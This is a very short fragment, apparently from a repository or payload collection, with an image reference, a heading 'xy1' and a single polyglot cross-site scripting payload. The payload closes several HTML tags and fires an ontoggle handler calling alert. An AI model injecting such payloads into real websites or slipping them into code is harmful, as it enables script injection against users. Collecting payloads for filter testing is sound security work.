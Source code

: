 # xy1
javascript:/*-->&lt;/title>&lt;/style>&lt;/textarea>&lt;/script>&lt;/xmp>&lt;details/open/ontoggle='+/`/+/"/+/onmouseover=1/+/[*/[]/+alert(/1/)//'>
